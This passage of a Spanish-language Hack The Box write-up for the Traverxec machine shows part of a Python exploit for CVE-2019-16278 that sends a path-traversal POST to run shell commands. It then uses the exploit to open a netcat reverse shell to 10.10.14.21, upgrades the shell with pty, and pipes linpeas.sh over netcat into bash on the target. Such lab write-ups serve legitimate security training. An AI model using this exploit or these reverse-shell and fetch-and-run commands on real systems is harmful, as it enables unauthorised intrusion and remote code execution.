 ```python
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":
    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)
   
    except IndexError:
        print(help_menu)
```

Primero, debemos iniciar netcat para tener un listener en el puerto 4444 e iniciar una shell reversa una vez que ejecutemos el script. Para esto, escribimos en la consola `nc -lvp 4444`. 

Ahora, para ejecutar el exploit anterior, escribimos el siguiente comando `python cve-2019-16278.py traverxec.htb 80 "nc 10.10.14.21 4444 -e /bin/sh"`

Una vez ejecutado el comando anterior, ya debemos tener la shell reversa con netcat como se puede observar en el siguiente código

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from traverxec.htb [10.10.10.165] 47300
whoami
www-data
```

Para tener una shell más interactiva y más fácil de navegar dentro del la máquina de nuestro objetivo, usamos el comando `python -c 'import pty; pty.spawn("/bin/bash")'`.

Con el fin de realizar la fase de enumeración de una manera más ágil, descargamos [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para buscar posibles archivos y directorios donde encontramos información de utilidad.

Para transmitir el contenido del archivo `linpeas.sh` usamos el siguiente comando

```bash
┌─[✗]─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]
└──╼ $nc -lvnp 9001 < linpeas.sh
listening on [any] 9001 ...
```

Y en la máquina objetivo nos conectamos a nuestra máquina por el puerto establecido anteriormente, en este caso el puerto 9001 

```bash
www-data@traverxec:/tmp$ nc 10.10.14.21 9001 | bash
```
